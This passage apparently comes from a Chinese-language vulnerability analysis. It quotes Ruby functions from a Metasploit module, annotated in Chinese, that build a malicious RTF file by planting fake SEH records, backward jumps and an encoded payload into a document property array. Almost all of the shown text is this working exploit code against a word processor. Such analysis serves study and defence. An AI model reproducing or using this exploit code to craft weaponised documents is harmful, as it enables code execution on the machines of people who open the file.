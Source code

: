 ```ruby
    end
end
```

其中与实际漏洞利用密切相关的两个函数的具体执行流为

```ruby
    def add_target(rest, targ)
    #* 将生成的 SEH 记录和跳转指令插入到指定的偏移位置以构建 exploit
        targ['Offsets'].each { |off|
        seh = generate_seh_record(targ.ret)
        rest[off, seh.length] = seh
        distance = off + seh.length
        jmp_back = Metasm::Shellcode.assemble(Metasm::Ia32.new, "jmp $-" + distance.to_s).encode_string
        rest[off + seh.length, jmp_back.length] = jmp_back
        }
    end

    def exploit
        # Prepare a sample SEH frame and backward jmp for length calculations
        #* 生成一个 SEH 记录
        seh = generate_seh_record(0xdeadbeef)
        #* 生成跳回用的跳转指令
        jmp_back = Metasm::Shellcode.assemble(Metasm::Ia32.new, "jmp $-0xffff").encode_string

        # RTF property Array parameters
        #* 生成随机数以作为 RTF 文件的属性参数
        el_size = sz_rand()
        el_count = sz_rand()

        data = ''
        # These words are presumably incorrectly used
        # assert(amount1 <= amount2)
        data << [0x1111].pack('v') * 2
        data << [0xc8ac].pack('v')

        # Filler
        if target.name =~ /Debug/i
        rest = Rex::Text.pattern_create(0x10000 + seh.length + jmp_back.length)
        else
        len = 51200 + rand(1000)
        rest = rand_text(len + seh.length + jmp_back.length)
        rest[0, payload.encoded.length] = payload.encoded
        end

        # Stick fake SEH frames here and there ;)
        if target.name == "Automatic"
        targets.each { |t|
            next if t.name !~ /Windows/i

            add_target(rest, t)
        }
        else
        add_target(rest, target)
        end

        # Craft the array for the property value
        #* 拼接 payload 和填充的数据
        sploit = "%d;%d;" % [el_size, el_count]
        sploit << data.unpack('H*').first
        sploit << rest.unpack('H*').first

        # Assemble it all into a nice RTF
```